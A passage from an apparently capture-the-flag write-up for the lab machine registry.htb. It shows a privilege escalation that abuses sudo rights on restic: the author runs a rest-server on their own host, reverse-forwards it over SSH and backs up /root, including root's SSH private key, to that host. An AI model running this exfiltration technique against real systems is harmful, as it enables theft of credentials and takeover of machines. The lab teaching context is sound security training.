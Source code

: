 First, we can start `rest-server` on our machine and do the port forwarding:

```bash
$ ./rest-server --path ../ --no-auth
Data directory: ../
Authentication disabled
Private repositories disabled
start server on :8000
# in separate terminal
ssh -i id_rsa -R 8000:127.0.0.1:8000 bolt@registry.htb
```

Then we need to create a repository on our rest-server for `restic` and backup the `/root` directory there:

```bash
www-data@registry:~/html$ restic init -r rest:http://localhost:8000
restic init -r rest:http://localhost:8000
tenter password for new repository: est

enter password again: test

created restic repository 6ad1468cd0 at rest:http://localhost:8000
www-data@registry:~/html$ sudo /usr/bin/restic backup -r rest:http://127.0.0.1:8000/ /root
</restic backup -r rest:http://127.0.0.1:8000/ /root
enter password for repository: test

password is correct
found 2 old cache directories in /var/www/.cache/restic, pass --cleanup-cache to remove them
scan [/root]
scanned 10 directories, 13 files in 0:00
[0:00] 100.00%  27.856 KiB / 27.856 KiB  23 / 23 items  0 errors  ETA 0:00 
duration: 0:00
snapshot beb14cb0 saved
```

Then we can access this repo from our machine easily.

```bash
$ restic -r . ls latest
enter password for repository: 
repository 6ad1468c opened (repository version 1) successfully, password is correct
created new cache in /home/kali/.cache/restic
snapshot beb14cb0 of [/root] filtered by [] at 2023-03-08 12:21:08.690059942 +0000 UTC):
/root
/root/.bash_history
/root/.bashrc
/root/.cache
/root/.cache/motd.legal-displayed
/root/.config
/root/.config/composer
/root/.config/composer/keys.dev.pub
/root/.config/composer/keys.tags.pub
/root/.gnupg
/root/.gnupg/private-keys-v1.d
/root/.local
/root/.local/share
/root/.local/share/nano
/root/.profile
/root/.selected_editor
/root/.ssh
/root/.ssh/authorized_keys
/root/.ssh/id_rsa
/root/.ssh/id_rsa.pub
/root/config.yml
/root/cron.sh
/root/root.txt
```
